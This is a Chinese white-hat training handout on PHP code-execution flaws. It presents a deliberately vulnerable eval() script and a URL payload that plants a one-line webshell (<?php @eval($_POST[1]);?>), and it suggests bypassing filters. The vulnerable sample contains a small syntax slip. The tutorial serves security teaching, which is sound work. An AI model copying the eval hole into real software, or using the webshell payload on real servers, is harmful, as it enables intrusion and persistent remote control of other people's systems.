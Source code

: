 ```yaml
---
title: "米斯特白帽培训讲义 漏洞篇 代码执行"
id: csdn53763163
---
```


# 米斯特白帽培训讲义 漏洞篇 代码执行

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 原理

由于开发人员编写源码时，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句，并交由服务端执行。命令注入攻击中，Web 服务器没有过滤类似`system`、`eval`和`exec`等函数，是该漏洞攻击成功的主要原因。

## 实例代码

```
<?php
// code-exe.php:
$code=@$_GET['code'];//http://localhost/subject/code-exe.php?code=
echo "<center>Payload:".$code."<br/>Result:</center>
eval($code);
```

整个代码就三行，第一行用于从 URL 参数中读取`code`参数的值。第二行用于输出该参数的值，用于检查该参数。第三行直接将该参数当做 PHP 代码执行。由于不存在任何过滤，就会产生代码执行漏洞。

我们在该文件的目录下执行`php -S 0.0.0.0:80`，之后访问`http://localhost/code-exe.php?code=phpinfo();`，我们可以看到该代码执行了`phpinfo`函数：

![](../img/04b1ad4072e56b6bc0a236bafbe68c19.png)

## 利用

我们可以将 URL 中`code`参数值换成不同的 PHP 代码，使其执行不同的 PHP 代码。利用此漏洞的关键还是熟悉所有可用的 PHP 代码。

比如，可以使用`phpinfo`或者`echo`等调试函数来判定漏洞。最重要的是，可以利用这个漏洞写入 Webshell，代码如下：

```
$file='mst.php'; // 一句话木马的文件名
$person='<?php @eval($_POST[1]);?>'; // 一句话文件名的代码
file_put_contents($file,$person, FILE_APPEND | LOCK_EX); // 当key.php文件不存在会自动创建，如果存在就会添加
```

我们需要把这三行代码写入 URL 中，得到的 URL 是这样：`http://localhost/code-exe.php?code=$file='mst.php';$person='<?php @eval($_POST[1]);?>';file_put_contents($file,$person, FILE_APPEND | LOCK_EX);`。

访问之后，当前目录就会多出一个`mst.php`，内容为`<?php @eval($_POST[1]);?>`，这个就是一句话木马。由于不是讲工具的章节，这里就不拿菜刀演示了。

在实际代码中，当然不可能这么短，就需要大家使用`eval`和`exec`作为关键词来搜索可能的漏洞点。另外，实际代码中还可能在执行之前对`$code`进行过滤，也需要大家发挥创造性，绕过过滤来成功利用它。